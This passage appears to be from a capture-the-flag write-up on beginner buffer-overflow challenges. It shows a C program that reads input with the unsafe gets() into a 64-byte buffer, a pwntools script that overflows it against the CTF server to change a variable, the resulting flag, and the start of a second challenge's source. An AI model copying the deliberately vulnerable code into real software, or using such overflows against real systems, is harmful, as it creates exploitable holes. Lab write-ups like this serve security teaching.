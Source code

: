 ```c
int main(int argc, char **argv){
	setvbuf(stdout, NULL, _IONBF, 0); // clears standard output, you don't need to know this 

	volatile int target; // this guy here is one you want to change
	char buffer[64] = {0x00}; // this guy here can fit 64 characters

	target = 0;
	
	printf("Target is currently set to %d, overflow buffer and change 'target'!\n", target);
	printf("Gimme input: ");
	gets(buffer); // gets is an insecure function that allows you to input as many characters as you want to buffer.

	if (target != 0) {
		printf("You have changed the 'target' variable!\n");
		win();
	} else {
		printf("Nope, target is still %d\n", target);
	}
}
```

Simple variable overwrite:

```py
from pwn import *

context.log_level = 'error'

r = remote('ctf.whitehats.site', 14004)

payload = b'A' * 64 + b'\x01\x00\x00\x00'
r.sendline(payload)

r.interactive()
```

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/26e1ccea-6085-4558-8e06-ca1eeb0f29ca)

Flag: `WH2024{Im_1337_hakkerman_lmao}`

-----

## Beefy-Variable

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/2df381b2-98eb-4e9e-abb7-2df817a971a6)

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/dc7b2727-a7e4-4e75-8676-79c48763af26)

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define FLAGSIZE 64

char flag[FLAGSIZE];

void win(){
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
		printf("Flag File is Missing.\n");
		exit(0);
	}
```
